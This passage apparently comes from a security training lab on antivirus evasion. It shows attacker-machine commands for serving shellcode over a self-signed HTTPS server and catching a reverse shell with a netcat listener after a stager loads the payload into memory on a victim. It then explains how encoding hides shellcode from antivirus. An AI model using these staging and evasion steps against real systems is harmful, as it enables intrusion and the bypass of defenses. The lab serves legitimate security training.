 Now that we have a shellcode, let's set up a simple HTTPS server.  First, we will need to create a self-signed certificate with the  following command:

- **AttackBox**        

```shell-session
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
        
```

You will be asked for some information, but feel free to press enter  for any requested information, as we don't need the SSL certificate to  be valid. Once we have an SSL certificate, we can spawn a simple HTTPS  server using python3 with the following command:

- **AttackBox**        

```shell-session
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
        
```

With all of this ready, we can now execute our stager payload. The  stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember  to set up an nc listener to receive the reverse shell on the same port  specified when running msfvenom:

- **AttackBox**        

```shell-session
user@AttackBox$ nc -lvp 7474
        
```

# Introduction to Encoding and Encryption

### What is Encoding?

Encoding is the process of changing the data from its original state into a  specific format depending on the algorithm or type of encoding. It can  be applied to many data types such as videos, HTML, URLs, and binary  files (EXE, Images, etc.).

Encoding is an important concept that is commonly used for various purposes, including but not limited to:

- Program compiling and execution
- Data storage and transmission
- Data processing such as file conversion

Similarly, when it comes to AV evasion techniques, encoding is also used to hide shellcode strings  within a binary. However, encoding is not enough for evasion purposes.  Nowadays, AV software is more intelligent and can analyze a binary, and  once an encoded string is found, it is decoded to check the text's  original form.

You can also use two or more encoding algorithms in tandem to make it harder for the AV to figure out the hidden content. The following figure shows that we  converted the "THM" string into hexadecimal representation and then  encoded it using Base64. In this case, you need to make sure that your  dropper now handles such encoding to restore the string to its original  state.
